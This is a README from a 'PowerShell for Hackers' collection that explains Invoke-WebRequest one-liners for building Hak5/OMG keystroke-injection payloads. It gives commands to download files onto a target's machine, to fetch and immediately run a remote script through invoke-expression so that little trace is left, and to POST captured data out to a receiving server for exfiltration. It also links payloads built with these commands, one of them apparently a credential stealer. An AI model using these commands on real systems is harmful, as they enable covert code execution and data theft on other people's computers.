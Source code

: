 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

Appreciate [UberGuidoZ](https://github.com/UberGuidoZ) for contributing to this function.

# Invoke-WebRequest

## Description

These functions are used to either download or upload files or data

## The Function

### [IWR-Save] 

This formatting of the IWR function will download a file from a selected URL and save it to the directory of your choosing 

This is helpful if you are trying to save an image or sound file to use in your script

------------------------------------------------------------------------------------------------------------------------------

$env:TMP\   

Use this environment variable to save the file to your Temp directory

$Env:USERPROFILE\Desktop\    

Use this environment variable to save a file to your desktop

```
iwr < Your url for the intended file>?dl=1 -O $Env:USERPROFILE\Desktop\image.jpg
```

### [IWR-Fileless] 

This formatting of the IWR function will download a file and execute it immedietely without saving it to memory

This is helpful if you are trying to download and execute a script without keeping it on the target's system

```
$pl = iwr < Your url for the intended file>?dl=1; invoke-expression $pl
```

### [IWR-Post] 

This formatting of the IWR function will exfiltrate data via a DNS/POST

This is helpful if you are trying to exfiltrate the data you have captured

[Request Catcher](https://requestcatcher.com/)<-------Helpful website to test POST requests

```
iwr -Uri < Your url for recieving the intended file> -Method POST -Body "text to upload"
```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 

Listed below are payloads that have used one of these functions:

[Acid Burn](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-AcidBurn)

[JumpScare](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-JumpScare)

[WallPaper-Troll](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-Wallpaper-Troll)

[Credz-Plz](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-Credz-Plz)

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>
  
  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 
  
  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>
  
  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>
  
  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>
  
  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
